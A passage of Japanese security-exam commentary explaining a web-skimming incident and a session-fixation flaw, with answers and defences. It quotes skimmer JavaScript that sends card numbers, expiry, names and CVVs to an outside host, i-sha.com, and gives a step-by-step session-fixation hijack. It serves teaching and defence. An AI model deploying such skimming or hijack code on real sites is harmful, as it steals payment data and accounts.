| `div.radio` の中身をカード情報入力欄に置換      | **利用者にカード情報を入力させる**           |
| 同時に `order[Payment]` を hidden の `1` に固定 | **必ず支払手続画面（カード決済）へ進ませる** |

これにより、利用者から見ると「支払方法が勝手にクレジットカード決済になってしまう」という問合せの内容と一致する。

**+α：セキュリティ上の教訓**

| 問題                             | 内容                                                                   |
| -------------------------------- | ---------------------------------------------------------------------- |
| クライアント側の値を信用する設計 | 支払方法をクライアントから送られた<br>パラメータだけで決めている       |
| 対策の方向                       | サーバ側のセッションに選択状態を保持し、<br>**遷移の妥当性を検証**する |

なお本問では、根本原因は**JSファイルの改ざん**なので、hiddenパラメータ自体が脆弱性なのではない。しかし「**クライアント側で完結する制御は、クライアント側が汚染されれば破られる**」という原則は押さえておく。

> **落とし穴**：パラメータ名は `order[Payment]` と**角括弧まで正確に**書く。`Payment` だけでは不正解。値は `1`（「クレジットカード決済」ではない）。

---

### 設問2(3)　図2の4〜15行目の処理内容

> **(3)** 図2について、**4〜15行目の処理内容**を具体的に答えよ。
>
> （図2 ファイルK）
> ```javascript
>  4:   let form = document.getElementById('shopping-form');
>  5:   form.addEventListener('submit', function() {
>  6:     const req = new XMLHttpRequest();
>  7:     let number = document.getElementById('get_number').value;
>  8:     let exp_month = document.getElementById('get_exp_month').value;
>  9:     let exp_year = document.getElementById('get_exp_year').value;
> 10:     let name = document.getElementById('get_name').value;
> 11:     let code = document.getElementById('get_code').value;
> 12:     let url = 'https://i-sha.com/?num=' + number + '&exp=' + exp_month + '%2F' +
>              exp_year + '&name=' + name + '&code=' + code;
> 13:     req.open("GET", url);
> 14:     req.send();
> 15:   });
> ```

**解答**：**addEventListener メソッドで配送先・支払方法選択画面の form 要素にイベントリスナーを登録し、submit 時にクレジットカード情報をクエリパラメータとして i-sha.com に送信する。**

**解説**

**1行ずつの対応**

| 行     | 処理                                                                                                                | 解答への寄与                                                                     |
| ------ | ------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| 4      | `shopping-form` の form 要素を取得                                                                                  | 「**配送先・支払方法選択画面の<br>form 要素に**」                                |
| 5      | **`addEventListener('submit', …)`** で<br>イベントリスナーを登録                                                    | 「**addEventListener メソッドで**<br>イベントリスナーを登録し、**submit 時に**」 |
| 6      | `XMLHttpRequest` オブジェクトを生成                                                                                 | 通信の準備                                                                       |
| 7〜11  | 3行目で挿入した入力欄<br>（`get_number`, `get_exp_month`,<br>`get_exp_year`, `get_name`, `get_code`）<br>の値を取得 | 「**クレジットカード情報**を」                                                   |
| 12     | URL を組み立てる<br>`https://i-sha.com/?num=…&exp=…&name=…&code=…`                                                  | 「**クエリパラメータとして<br>i-sha.com に**」                                   |
| 13・14 | **GET** メソッドで送信                                                                                              | 「送信する」                                                                     |

```mermaid
sequenceDiagram
    participant U as 利用者
    participant B as ブラウザ（ファイルK）
    participant J as J社ECサイト
    participant A as i-sha.com（攻撃者）
    U->>B: ① 偽フォームにカード情報を入力
    U->>B: ② 「次へ」をクリック（submit）
    Note over B: addEventListener が発火
    B->>A: ③ GET https://i-sha.com/?num=…&exp=…&name=…&code=…
    B->>J: ④ 本来の submit も実行され /payment へ遷移
    Note over U: 利用者は「2回目の入力画面」だと思って<br/>本物のフォームにも入力する
```

**なぜ `submit` イベントに仕掛けるのか（攻撃の巧妙さ）**

| 理由             | 内容                                                                   |
| ---------------- | ---------------------------------------------------------------------- |
| タイミングが完璧 | **利用者が入力を完了した瞬間**に、<br>確実に全項目が揃った状態で盗める |
| 気付かれない     | **画面遷移は正常に進む**ので、<br>利用者に異常を感じさせない           |
| 実装が簡単       | 別途「送信ボタン」を作る必要がない                                     |

**`%2F` の意味**：`exp_month + '%2F' + exp_year` の `%2F` は **`/` のURLエンコード**。有効期限を `04%2F2026`（＝`04/2026`）の形で送っている。

**+α：なぜPOSTでなくGETなのか — これが設問3(1)への伏線**

GETでクエリパラメータに載せると、**受信側のWebサーバのアクセスログにリクエストURIごと記録される**。つまり攻撃者は**Webアプリケーションプログラムを何も用意しなくても、アクセスログを見るだけでカード情報を回収できる**。

> **落とし穴**：「カード情報を外部に送信する」だけでは不十分。**①addEventListenerでsubmitイベントに登録する ②form要素に対して ③クエリパラメータ（GET）で ④i-sha.com に送る**の4要素を書く。

---

### 設問3(1)　下線③　アプリがなくてもカード情報を取得できる方法

> **設問3**　〔クレジットカード情報の漏えいの調査と対策〕について答えよ。
> **(1)** 本文中の下線③について、攻撃者のWebサーバでクレジットカード情報を取得する方法を答えよ。
>
> **Rさん**：ダミーのクレジットカード情報を設定して図2でGETリクエストが送られる先のURLにアクセスしたところ、**404のステータスコードが返ってきた**。もし、攻撃者のWebサーバが適切なステータスコードを返しているとしたら、この結果から、攻撃者のWebサーバにWebアプリケーションプログラムが用意されておらず、クレジットカード情報は盗まれていないと判断してよいか。
> **Gさん**：**③利用者が改ざんされた画面に入力して、クレジットカード情報が送信されてしまったときに、攻撃者のWebサーバでWebアプリケーションプログラムを用意していなくても、攻撃者は利用者の入力したクレジットカード情報を取得する方法があります。** クレジットカード情報は盗まれたと判断すべきです。

**解答**：**Webサーバのアクセスログのリクエスト URI から情報を取得する。**

**解説**

**GETリクエストはアクセスログに丸ごと残る**

```mermaid
flowchart LR
  B["被害者のブラウザ"] -->|"GET /?num=4111…&exp=04%2F2026<br/>&name=TARO+YAMADA&code=123"| W["攻撃者のWebサーバ<br/>（静的サーバでOK）"]
  W -->|"404 Not Found を返す"| B
  W --> LOG["<b>アクセスログ</b><br/>…GET /?num=4111…&code=123 … 404"]
  LOG --> A["攻撃者がログを読むだけで<br/><b>カード情報を回収</b>"]
  style LOG fill:#faa
  style A fill:#faa
```

Webサーバ（Apache、nginx等）は、**リクエストを受け付けた時点でアクセスログにリクエストURIを記録する**。これは、

- **アプリケーションプログラムが動く前**の処理
- **ステータスコードが404であっても記録される**

したがって、攻撃者は**何のプログラムも書かずに、Webサーバを立てておくだけ**でカード情報を収集できる。404が返ってきたことは「**盗まれていない**」ことの証明にはならない。

**Rさんの推論のどこが誤りか**

| Rさんの推論                              | 何が誤りか                                                        |
| ---------------------------------------- | ----------------------------------------------------------------- |
| 「404が返る ＝ アプリが無い」            | **仮定が誤り**<br>（攻撃者が意図的に404を返している可能性もある） |
| 「アプリが無い ＝ 情報は盗まれていない」 | **論理が誤り**<br>（**アクセスログだけで盗める**）                |

インシデント対応では、**「盗まれていない証拠」がない限り「盗まれた」と扱う**のが原則。特にクレジットカード情報のように影響が大きいものは、**保守的に判断して利用者に通知する**必要がある。

**+α：GETでの機微情報送信が危険な理由（一般論）**

| リスク                   | 内容                                         |
| ------------------------ | -------------------------------------------- |
| **サーバのアクセスログ** | リクエストURIがそのまま記録される ← **本問** |
| **Referer ヘッダー**     | 遷移先のサイトにURLが送られる                |
| **ブラウザの履歴**       | URLが端末に残る                              |
| **プロキシ・CDNのログ**  | 経路上の機器にも記録される                   |
| 共有・スクリーンショット | URLが目に見える形で流出する                  |

だから **パスワード・トークン・個人情報はGETのクエリパラメータに載せない**（POSTのボディに入れる）というのが鉄則。攻撃者はこの性質を逆手にとっている。

> **落とし穴**：「攻撃者がパケットをキャプチャする」等ではない。**攻撃者自身のWebサーバのアクセスログ**という、最も単純で確実な手段を答える。

---

### 設問3(2)　空欄f　被害者候補を特定するために抽出するもの

> **(2)** 本文中の　**f**　に入れる適切な字句を答えよ。
>
> **Rさん**：攻撃者のWebサーバに情報を送信してしまった利用者は**漏れなく特定したい**が、**送信していない利用者はできるだけ含めたくない**。そのためには、どのようにすればよいのか。
> **Gさん**：V社の報告から、`customize.js` の置換えの影響のあった期間は6月11日13時12分から6月16日9時00分と考えられます。攻撃者のWebサーバにクレジットカード情報を送信する直前までの操作をした利用者を被害者候補として特定するために、その期間のアプリケーションログから　**f**　を抽出したいと思います。

**解答**：**配送先・支払方法選択画面にアクセスしたアカウント名**

**解説**

**「漏れなく、かつ過剰でなく」を満たす条件を選ぶ**

```mermaid
flowchart TD
  ALL["影響期間（6/11 13:12 〜 6/16 9:00）の全アクセス"] --> Q{"どの画面か？"}
  Q -->|"/cart のみ"| N1["偽フォームは出ていない<br/>→ 含めない"]
  Q -->|"<b>/shopping にアクセス</b>"| Y["<b>被害者候補</b><br/>偽フォームが表示された"]
  Q -->|"/confirm まで到達"| N2["注文を完了しなかった被害者を<br/>取りこぼす"]
  style Y fill:#faa
```

**本文の根拠**

| 記述                                                                                                       | 効果                                                                                     |
| ---------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------- |
| 図2 1行目 `if (location.pathname == '/shopping')`                                                          | **配送先・支払方法選択画面でのみ**<br>ファイルKが動作する                                |
| 図2 5行目 `form.addEventListener('submit', …)`                                                             | **submit（「次へ」ボタン）時**に<br>カード情報が送信される                               |
| 図1 注記2「`/cart` 以外へのアクセスは<br>J社ECサイトへの**ログインが必要**である」                         | `/shopping` にアクセスした利用者は<br>**必ずログイン済み＝アカウント名が記録されている** |
| アプリケーションログには、アクセス日時、画面名、<br>**アカウント名**、アクセス元IPアドレスなどが記録される | 抽出できる項目                                                                           |

**なぜ `/shopping`（配送先・支払方法選択画面）なのか**

| 候補                                                 | 評価                                                                                            |
| ---------------------------------------------------- | ----------------------------------------------------------------------------------------------- |
| **配送先・支払方法選択画面に<br>アクセスした利用者** | ✅ **偽フォームが表示された全員**を漏れなく含む。<br>Gさんの「送信する**直前まで**の操作」に対応 |
| 注文完了画面に<br>アクセスした利用者                 | ❌ **注文を完了しなかった被害者を取りこぼす**                                                    |
| 全利用者                                             | ❌ **送信していない利用者を大量に含めてしまう**                                                  |

**なぜ「アカウント名」なのか**

| ログ項目             | 利用者を特定できるか                         |
| -------------------- | -------------------------------------------- |
| アクセス日時         | ❌ 誰かは分からない                           |
| 画面名               | ❌ 絞り込み条件には使うが、個人は特定できない |
| **アカウント名**     | ✅ **個人を特定でき、案内の連絡先に紐づく**   |
| アクセス元IPアドレス | ❌ 同一人物でも変わる／共有される             |

表1 注2「利用者情報としてあらかじめ電子メールアドレスを登録しておく」→ アカウント名が分かれば**案内メールを送れる**。

**+α：「プロキシサーバなどのキャッシュの影響も考慮した上で」の意味**

本文最後に「その後、Gさんは、**プロキシサーバなどのキャッシュの影響も考慮した上で**、被害者候補を特定し、その情報を基に案内を出した」とある。

```mermaid
flowchart LR
  A["6/16 8:05<br/>customize.js を元に戻した"] --> B["しかしブラウザ・プロキシに<br/>ファイルKが<b>キャッシュ</b>されていれば<br/>偽フォームが表示され続ける"]
  B --> C["6/16 9:00<br/><b>Cache Busting</b> を実施<br/>（キャッシュ破棄＋再読込み）"]
  C --> D["影響期間の終了は<br/>8:05 ではなく <b>9:00</b>"]
  style B fill:#faa
  style D fill:#aaf
```

この「**キャッシュがある限り改ざんの影響は続く**」という視点が、影響期間の確定に効いている。

> **落とし穴**：「アクセス元IPアドレス」を選ばない。個人を特定して案内を出すのが目的なので**アカウント名**。また画面は `/payment` や `/confirm` ではなく **`/shopping`（配送先・支払方法選択画面）**。

---

### 問3の学習ポイントまとめ

**攻撃の全体像（Webスキミング／Magecart型）**

```mermaid
flowchart TD
  S0["① V社が /ec-j/layout/js/ 配下で<br/><b>未認証のPUTを許可</b>する設定に変更（6/8 18:12）"] --> S1["② 攻撃者がPUTで<br/><b>customize.js をファイルKに置換</b>（6/11 13:12）"]
  S1 --> S2["③ 配送先・支払方法選択画面で<br/><b>innerHTMLによる偽フォーム挿入</b>"]
  S2 --> S3["④ hidden で order[Payment]=1 に固定<br/>→ 必ずカード決済へ"]
  S3 --> S4["⑤ submit時に <b>GETで i-sha.com へ送信</b>"]
  S4 --> S5["⑥ 攻撃者は<b>アクセスログを読むだけ</b>で回収"]
  style S0 fill:#faa
  style S1 fill:#faa
  style S5 fill:#faa
```

**根本原因と対策**

| 原因                                                                  | 対策                                                                         |
| --------------------------------------------------------------------- | ---------------------------------------------------------------------------- |
| **未認証でのPUTメソッドを許可**<br>（利便性のための設定変更）         | PUTの禁止（6/16実施）。<br>ファイル更新はSSH等の認証された経路で             |
| 改ざんに**気づく仕組みがなかった**<br>（利用者の問合せで発覚）        | **Webサーバのファイルの改ざん検知**<br>（本文末尾でJ社が検討することにした） |
| `customize.js` の**読み込みを<br>無効化できない**（WebアプリPの仕様） | 不要なファイルを配置しない。<br>**SRI（Subresource Integrity）** の活用      |
| キャッシュにより影響が継続                                            | **Cache Busting**                                                            |

**「カード情報の非保持化」の限界**

J社はトークン型決済でカード情報をサーバに保持していなかった。しかし**利用者のブラウザ上でJavaScriptを改ざんされれば、入力された瞬間に盗まれる**。これがWebスキミングの本質。

| 対策                                   | 内容                                                                                                              |
| -------------------------------------- | ----------------------------------------------------------------------------------------------------------------- |
| **CSP<br>（Content-Security-Policy）** | スクリプトの読み込み元・送信先を制限<br>（`script-src`, `connect-src`）。<br>i-sha.com への送信を遮断できた可能性 |
| **SRI<br>（Subresource Integrity）**   | 外部JSのハッシュ値を検証し、<br>改ざんされたファイルを読み込まない                                                |
| **ファイル改ざん検知**                 | 定期的にハッシュ値を比較。<br>本文でJ社が検討を決めたもの                                                         |
| 最小限のファイル配置                   | 「通常時は空のファイル」である<br>`customize.js` が攻撃の足掛かりになった                                         |

**インシデント対応として押さえるべき流れ**

1. 利用者からの問合せ（6/11〜12）→ アクセスログの確認
2. 委託先（V社）への確認 → 原因と時系列の特定（図4）
3. **影響期間の確定**（6/11 13:12 〜 6/16 9:00、**キャッシュの影響を考慮**）
4. **被害者候補の特定**（`/shopping` にアクセスしたアカウント名）
5. **利用者への案内**、**関係当局への報告・届出**
6. 再発防止策（ファイルの改ざん検知）の検討・実施

---

## 問4 セキュリティ診断（M社・B社）

### 題材の整理

| 項目     | 内容                                                                                                                                                                   |
| -------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 企業     | **B社**：セキュリティ診断サービスを提供。<br>**M社**：転職支援Webサイト（**Mサイト**）を運営                                                                           |
| 診断対象 | **Mサイトの検証用サイト**。<br>機能を追加した**新しいバージョンのWebアプリ**と、<br>求人企業がアプリから**HTTPSで呼び出すWebAPI**。<br>**リリース前**                  |
| 扱う情報 | 求職者：**氏名、自宅住所、電話番号、勤務先**などの<br>**求職者属性情報**、希望職種・希望条件などの求職情報<br>求人企業：会社情報、求人情報、求人担当者の氏名、所属部署 |

```mermaid
flowchart LR
  JS["求職者<br/>氏名・自宅住所・電話番号・<br/>勤務先などの<b>求職者属性情報</b>"] --> M["Mサイト<br/>（検証用サイト）"]
  CO["求人企業<br/>会社情報・求人情報・<br/>担当者氏名・所属部署"] --> M
  M --> MT["マッチング"]
  MT --> Q["問合せ・応募"]
  CO -->|"HTTPS ＋ APIkey"| API["<b>WebAPI</b><br/>求職者ID・求職者属性情報を取得"]
  API --> M
  style API fill:#faa
```

**WebAPIの仕様（図2）の重要点**

| 項番    | 内容                                                                                                                                                                                |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 2       | ①日時範囲を指定して**問合せがあった求職者の求職者ID**を取得<br>②日時範囲を指定して**応募があった求職者の求職者ID**を取得<br>③**任意の求職者IDを指定して、求職者属性情報を取得** ← ★ |
| 3(1)    | 認証は**APIkey**（Mサイトの利用者IDに紐付く）。<br>有効期間は発行後**14日間**                                                                                                       |
| 3(2)    | HTTP Request 内の APIkey が**発行済み・有効期間内か**を<br>確認するだけ                                                                                                             |
| 4(1)    | 利用契約で認めている求職者属性情報の利用範囲は<br>「**当該企業への問合せ又は当該企業への応募それぞれに<br>関する対応だけ**」                                                        |
| 4(2)    | **一つの利用者IDに対して複数のAPIkeyを発行できる**                                                                                                                                  |
| **注1** | **求職者ID ＝ 利用者登録をした年月日の8桁の数字<br>＋ 日ごとに 000001 から登録順に割り当てられる<br>6桁の数字 ＝ 数字14桁** ← ★                                                     |

**検出された脆弱性（図4 表A・表E）**

| 分類             | 項番 | 脆弱性の種類                       | 検出箇所         |
| ---------------- | ---- | ---------------------------------- | ---------------- |
| Webアプリ        | 1    | **セッションフィクセーション**     | 画面遷移 **a**   |
| Webアプリ        | 2    | **メールヘッダーインジェクション** | メール(あ)の送信 |
| Webアプリ        | 3    | **HTTPヘッダーの不備**             | 全ての画面遷移   |
| プラットフォーム | 1    | TLS 1.1 が利用可能                 | —                |
| プラットフォーム | 2    | HTTPサーバのバージョンの露出       | —                |

---

### 設問1(1)　空欄a　セッションフィクセーションの検出箇所

> **設問1**　図4中の2章について答えよ。
> **(1)** 表A中及び2.2.1(2)中の　**a**　に入れる適切な記号を、**図3中の画面遷移の記号（ア）〜（ナ）から選び**、答えよ。
>
> （2.2.1(1) 脆弱性の内容）Mサイトでは form 内の hidden フィールドである sessionID の値だけでセッション管理を実施していた。しかし、**表Bのいずれの画面遷移においても、HTTPレスポンス中の sessionID の値が同一であった。**
>
> （表B セッションフィクセーション脆弱性の確認）
>
> | 画面遷移 | HTTPレスポンス中の sessionID |
> | --- | --- |
> | Webブラウザに直接URLを入力して、画面01を表示したとき | `value="764b2ac2-0452-49e4-92a7-0914fa005011"` |
> | 画面遷移（ア） | 同一 |
> | **画面遷移（イ）** | **同一** |
> | 画面遷移（エ） | 同一 |

**解答**：**（イ）**

**解説**

**セッションフィクセーションの成立条件**

```text
① 攻撃者が、被害者のブラウザに「攻撃者の知っているセッションID」を使わせられる
② そのセッションIDが、被害者の【ログイン後も変わらない】     ← ★ここが脆弱性
```

つまり **ログインの前後でセッションIDが変わらない**ことが脆弱性の本体。

**図3の画面遷移**

| 記号       | 遷移                                                       | 認証の境界を越えるか    |
| ---------- | ---------------------------------------------------------- | ----------------------- |
| （ア）     | 画面01 内の操作（利用者ID・PW入力）                        | ✕                       |
| **（イ）** | **画面01 の「ログイン」ボタン<br>→ 画面02 求人企業トップ** | ✅ **ログイン**          |
| （ウ）     | 画面01 の「PW再設定」ボタン → 画面14 へ                    | ✕                       |
| （エ）     | 画面02 の「マイページ」→ 画面03 求人企業マイページ         | ✕（ログイン後の画面間） |

```mermaid
flowchart LR
  A["画面01 ログイン画面<br/>sessionID = 764b2ac2…"] -->|"<b>（イ）ログイン</b>"| B["画面02 求人企業トップ<br/>sessionID = <b>764b2ac2…</b><br/>変わっていない"]
  style B fill:#faa
```

**なぜ「hidden フィールドでセッション管理」が問題を悪化させるか**

| セッションIDの保持場所          | 攻撃者が値を固定できるか                           |
| ------------------------------- | -------------------------------------------------- |
| cookie                          | ブラウザが管理。別ドメインからは設定しにくい       |
| **form 内の hidden フィールド** | **攻撃者がHTMLを自作して任意の値を埋め込める** ← ★ |
| URLパラメータ                   | URLに埋め込める（同様に危険）                      |

Mサイトは hidden フィールドだけでセッション管理しているため、**攻撃者は自分のHTMLに好きな sessionID を書いて POST させられる**。これが図Aの手順3で使われる。

> **落とし穴**：（ア）や（エ）を選ばない。**ログインという認証の境界をまたぐ遷移**を選ぶ。

---

### 設問1(2)　空欄b　攻撃で使うURL

> **(2)** 図A中の　**b**　に入れる適切なURLを、**表1から選び**答えよ。
>
> （図A セッションフィクセーション脆弱性を悪用して不正ログインする手順）
> 手順1：求人企業の登録メールアドレスを、何らかの方法で入手する。
> 手順2：URL "　**b**　" にアクセスして、**sessionIDを入手する**。
> 手順3：次の二つの要素を含むHTMLを作成する。
> 　- 手順2で入手した sessionID を記述したフォーム
> 　- 当該HTMLがWebブラウザに読み込まれた直後に、上記のフォームを URL "　**b**　" に POSTメソッドで送信するスクリプト
> 手順4：手順3で作成したHTMLを、罠サイトに置く。
> 手順5：手順4のHTMLへのリンクを含むメールを作成し、手順1で入手したメールアドレスに送信する。
> 手順6：手順5のメールがメール受信者に届き、罠サイトにアクセスするのを待つ。
> 手順7：罠サイトへのアクセスを検知後、　**c**　が完了することを期待して数分間待ち、手順2で入手した sessionID を指定した状態で、URL "　**b**　" にアクセスする。

**解答**：**`https://test.△△△.jp/`**

**解説**

**表1 各画面のURL**

| 画面番号   | URL                             |
| ---------- | ------------------------------- |
| **01, 02** | **`https://test.△△△.jp/`**      |
| 03         | `https://test.△△△.jp/mypage`    |
| 04         | `https://test.△△△.jp/apikey`    |
| 05, 06     | `https://test.△△△.jp/keylist`   |
| 07, 08     | `https://test.△△△.jp/keynew`    |
| 09, 10, 11 | `https://test.△△△.jp/property`  |
| 12, 13     | `https://test.△△△.jp/pwchange`  |
| 14, 15     | `https://test.△△△.jp/pwreset`   |
| 16, 17     | `https://test.△△△.jp/pwreset/x` |

**3か所すべてが画面01／02 のURL**

| 手順      | 何をするか                              | 必要な画面                                                                                                 |
| --------- | --------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| **手順2** | sessionID を入手する                    | **画面01（ログイン画面）**<br>表Bの1行目「Webブラウザに直接URLを<br>入力して、画面01を表示したとき」がこれ |
| **手順3** | そのsessionIDを含むフォームをPOSTさせる | **画面01**<br>被害者のブラウザに攻撃者のsessionIDを<br>使わせる                                            |
| **手順7** | 被害者のログイン完了後にアクセスする    | **画面02**（ログイン後のトップ）<br>同じsessionIDでログイン済みとして入る                                  |

表1で**画面01と画面02は同じURL `https://test.△△△.jp/`** なので、3か所とも同じ答えになる。

```mermaid
sequenceDiagram
    participant A as 攻撃者
    participant M as Mサイト<br/>https://test.△△△.jp/
    participant V as 求人企業の担当者
    participant T as 罠サイト
    A->>M: 手順2: アクセスして sessionID を入手<br/>（= 764b2ac2…）
    A->>T: 手順3-4: sessionID を埋め込んだHTMLを罠サイトに設置
    A->>V: 手順5: 罠サイトへのリンク入りメールを送信
    V->>T: 手順6: 罠サイトにアクセス
    T->>M: 自動で sessionID を POST
    Note over V,M: 被害者は攻撃者の sessionID で<br/>ログイン画面を表示
    V->>M: 手順7の前提: 普通にログインする（空欄c）
    Note over M: ログインしても sessionID は変わらない（脆弱性）
    A->>M: 手順7: 同じ sessionID でアクセス<br/>→ <b>ログイン済みとして扱われる</b>
```

> **落とし穴**：手順7で画面02のURLを別に探さない。**画面01と02は同じURL**（表1の1行目）なので、3か所とも同じ答えになる。

---

### 設問1(3)　空欄c　手順7で完了を待つ操作

> **(3)** 図A中の　**c**　に入れる適切な**操作**を答えよ。
>
> （図A 手順7）罠サイトへのアクセスを検知後、　**c**　が完了することを期待して数分間待ち、手順2で入手した sessionID を指定した状態で、URL "　b　" にアクセスする。

**解答**：**メール受信者によるログイン**

**解説**

**セッションフィクセーションが「効く」瞬間**

```mermaid
flowchart TD
  S1["攻撃者が sessionID を取得<br/>（<b>未認証</b>状態）"] --> S2["被害者のブラウザに<br/>その sessionID を使わせる"]
  S2 --> S3{"<b>被害者がログインするか？</b>"}
  S3 -->|"ログインした"| OK["そのsessionIDが<b>認証済みセッション</b>に昇格<br/>（ログイン後も変わらないため）"]
  S3 -->|"ログインしない"| NG["攻撃失敗（未認証のまま）"]
  OK --> S4["攻撃者が同じsessionIDでアクセス<br/>→ <b>被害者としてログイン済み</b>"]
  style OK fill:#faa
  style S4 fill:#faa
```

攻撃者が持っているsessionIDは、**手順2の時点では未認証**。これが**被害者のログインによって認証済みに変わる**。だから攻撃者は「被害者がログインするまで待つ」必要がある。

手順6で「罠サイトにアクセスするのを待つ」、手順7で「アクセスを**検知後**、　c　が完了することを期待して**数分間待ち**」という時間軸が、この構造を表している。

**なぜ被害者はログインするのか**：罠サイトのHTMLが `https://test.△△△.jp/` に自動POSTするので、被害者の画面には**本物のMサイトのログイン画面**が表示される。メールで誘導されてきた担当者は、ごく自然にログインする。

**+α：セッションフィクセーションとセッションハイジャックの違い**

|                        | セッションフィクセーション                   | セッションハイジャック（一般）                    |
| ---------------------- | -------------------------------------------- | ------------------------------------------------- |
| セッションIDの出どころ | **攻撃者が用意した値**を<br>被害者に使わせる | **被害者のセッションIDを盗む**<br>（XSS、盗聴等） |
| 攻撃者の知識           | 最初から知っている                           | 盗む必要がある                                    |
| 根本対策               | **ログイン時にセッションIDを再発行**         | HttpOnly、Secure、暗号化                          |

> **落とし穴**：「罠サイトへのアクセス」ではない。それは手順6で既に検知済み。待つのは**その後のログイン**。

---

### 設問1(4)　空欄d　脆弱性の修正方法

> **(4)** 2.2.1(2)中の　**d**　に入れる適切な修正方法を具体的に答えよ。
>
> （2.2.1(2) 脆弱性の修正方法）　**a**　の画面遷移の際に実行されるコードにおいて、　**d**　することを推奨する。

**解答**：**使用済みの sessionID を無効にした上で、新しい sessionID を発行**

**解説**

**Session Regeneration（セッションIDの再生成）**

```mermaid
flowchart LR
  subgraph NG["【現状：脆弱】"]
    A1["ログイン前<br/>sessionID = 764b2ac2…"] -->|"ログイン"| A2["ログイン後<br/>sessionID = <b>764b2ac2…</b><br/>同じ"]
  end
  subgraph OK["【修正後】"]
    B1["ログイン前<br/>sessionID = 764b2ac2…<br/>→ <b>無効化</b>"] -->|"ログイン"| B2["ログイン後<br/>sessionID = <b>新しい値</b><br/>攻撃者は知らない"]
  end
  style A2 fill:#faa
  style B2 fill:#aaf
```

**2つの動作が両方必要**

| 動作                                      | なぜ必要か                                                                                                       |
| ----------------------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| **新しい sessionID を発行する**           | 攻撃者が知っている古いIDでは、<br>ログイン済みセッションにアクセスできなくなる                                   |
| **使用済みの sessionID を<br>無効にする** | 古いIDを残すと、それが引き続き有効な<br>セッションとして使われる恐れがある。<br>セッションの重複・使い回しを防ぐ |

**実装例**

| 言語・FW        | メソッド                                                                                 |
| --------------- | ---------------------------------------------------------------------------------------- |
| PHP             | `session_regenerate_id(true)`（`true` で旧セッションを削除）                             |
| Java（Servlet） | `session.invalidate()` → 新規 `getSession(true)`、<br>または `request.changeSessionId()` |
| Ruby on Rails   | `reset_session`                                                                          |

**「　a　の画面遷移の際に実行されるコードにおいて」の意味**：a＝（イ）＝**ログイン処理**。つまり **認証が成功した直後**にセッションIDを再発行する。これが正しいタイミング。

**+α：併せて検討すべき対策**

| 対策                                                 | 内容                                                          |
| ---------------------------------------------------- | ------------------------------------------------------------- |
| セッションIDを **cookie で管理**する                 | hidden フィールドは攻撃者がHTMLを<br>自作して任意の値を送れる |
| cookie に **HttpOnly / Secure /<br>SameSite** を付与 | XSSによる窃取、盗聴、CSRFを防ぐ                               |
| セッションIDを**推測困難な値**にする                 | 表Bの値はUUID形式で、この点は問題ない                         |
| ログアウト時にセッションを確実に破棄                 | —                                                             |

> **落とし穴**：「新しいsessionIDを発行する」だけでは片手落ち。**「使用済みのsessionIDを無効にした上で」**を必ず添える。

---

### 設問1(5)　空欄e・f　HTTPヘッダーの効果

> **(5)** 表D中の　**e**　，　**f**　に入れる適切な効果を答えよ。
>
> （表D 出力されなかったHTTPヘッダー）
>
> | HTTPヘッダー名 | 設定した場合の主な効果 |
> | --- | --- |
> | Content-Security-Policy | Webブラウザが実行可能なスクリプトの有効なソースとなる<br>ドメインを、Mサイトで必要なものだけに限定することができる。 |
> | **Strict-Transport-Security** | **e** |
> | **X-Content-Type-Options** | **f** |

**解答**

| 欄    | 解答例                                                                                                        |
| ----- | ------------------------------------------------------------------------------------------------------------- |
| **e** | **Mサイトへの接続をHTTPSに強制することができる。**                                                            |
| **f** | **Mサイトのコンテンツに対して、Content-Typeヘッダーで指定した<br>MIMEタイプを強制的に適用することができる。** |

**解説**

**e：Strict-Transport-Security（HSTS）**

```mermaid
sequenceDiagram
    participant B as ブラウザ
    participant M as Mサイト
    Note over B,M: 【初回】
    B->>M: ① https://… でアクセス
    M-->>B: ② Strict-Transport-Security: max-age=31536000
    Note over B: ③ ブラウザが「このサイトは常にHTTPS」と記憶
    Note over B,M: 【以降】
    Note over B: ④ 利用者が http://… と入力しても
    Note over B: ⑤ ブラウザが送信前に https:// に書き換える
    B->>M: ⑥ HTTPS で接続（HTTP通信は一切発生しない）
```

| ディレクティブ      | 意味                             |
| ------------------- | -------------------------------- |
| `max-age=<秒>`      | この期間、HTTPSを強制（必須）    |
| `includeSubDomains` | サブドメインにも適用             |
| `preload`           | HSTSプリロードリストへの登録申請 |

| 観点         | 内容                                                                                               |
| ------------ | -------------------------------------------------------------------------------------------------- |
| 何を防げるか | **SSLストリッピング攻撃**（中間者がHTTPSへの<br>リダイレクトを妨害し、HTTP通信のまま盗聴・改ざん） |
| 残る弱点     | **初回のHTTPアクセス**は保護されない<br>（プリロードリストで補完する）                             |

**f：X-Content-Type-Options**

```text
X-Content-Type-Options: nosniff
```

| 論点                       | 内容                                                                                                                             |
| -------------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| **MIMEスニッフィング**とは | ブラウザが `Content-Type` ヘッダーを信用せず、<br>**中身を見て勝手に種類を判断する**挙動                                         |
| 何が危険か                 | `Content-Type: text/plain` で返したファイルの中身が<br>HTMLやJavaScriptだと、**ブラウザがHTML/JSとして<br>解釈・実行**してしまう |
| 典型的な攻撃               | ファイルアップロード機能で、画像を装ったHTML/JSを<br>アップロードし、それを閲覧させて**XSSを成立させる**                         |
| `nosniff` の効果           | **サーバが指定した Content-Type を強制的に適用**し、<br>スニッフィングを禁止する                                                 |

**+α：表Dの3ヘッダーに共通する位置づけ**

> 「これらのHTTPヘッダーを設定することで**他の脆弱性による被害を軽減することができる**。」

つまり3つとも**保険的対策（多層防御）**。根本対策（出力エスケープ、HTTPS設定など）の代わりにはならないが、**根本対策の漏れをカバーする**。

| ヘッダー                  | 主に何を軽減するか                            |
| ------------------------- | --------------------------------------------- |
| Content-Security-Policy   | **XSS**（実行可能なスクリプトのソースを限定） |
| Strict-Transport-Security | **盗聴・中間者攻撃**（SSLストリッピング）     |
| X-Content-Type-Options    | **MIMEスニッフィング由来のXSS**               |

**関連して押さえるべきセキュリティヘッダー**

| ヘッダー                                  | 効果                         |
| ----------------------------------------- | ---------------------------- |
| `X-Frame-Options` / CSP `frame-ancestors` | **クリックジャッキング**対策 |
| `Referrer-Policy`                         | Referer経由のURL漏えい防止   |
